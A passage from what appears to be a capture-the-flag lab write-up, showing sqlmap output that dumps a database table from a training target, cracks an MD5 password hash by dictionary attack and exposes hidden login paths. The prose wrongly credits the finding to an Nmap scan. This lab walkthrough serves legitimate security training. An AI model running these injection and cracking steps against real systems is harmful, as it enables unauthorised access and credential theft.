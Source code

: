 ```console
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[09:25:18] [INFO] writing hashes to a temporary file '/tmp/sqlmap06u5qy2p43538/sqlmaphashes-0uk688jc.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] y
[09:25:23] [INFO] using hash method 'md5_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 

[09:25:29] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] y
[09:25:30] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[09:25:30] [INFO] starting 2 processes 
[09:25:33] [INFO] cracked password 'easytohack' for hash '69c66901194a6486176e81f5945b8929'                
Database: expose                                                                                           
Table: config
[2 entries]
+----+------------------------------+-----------------------------------------------------+
| id | url                          | password                                            |
+----+------------------------------+-----------------------------------------------------+
| 1  | /file1010111/index.php       | 69c66901194a6486176e81f5945b8929 (easytohack)       |
| 3  | /upload-cv00101011/index.php | // ONLY ACCESSIBLE THROUGH USERNAME STARTING WITH Z |
+----+------------------------------+-----------------------------------------------------+

[09:25:42] [INFO] table 'expose.config' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.10.208.188/dump/expose/config.csv'                                                                                 
[09:25:42] [WARNING] HTTP error codes detected during run:
414 (Request-URI Too Long) - 1 times
[09:25:42] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.208.188'                                                                                                         

[*] ending @ 09:25:42 /2025-04-07/

```


During the **Nmap** scan, the tool located two tables: user and config. In the user table, user data was found along with the password stored in plain text. In the config table, a password hash was discovered, which was successfully cracked to the value **easytohack** The analysis also revealed a hidden path accessible only to selected users.

I navigate to the discovered address **/file1010111/index.php** and log in with the found password. After logging in, I see the following page.
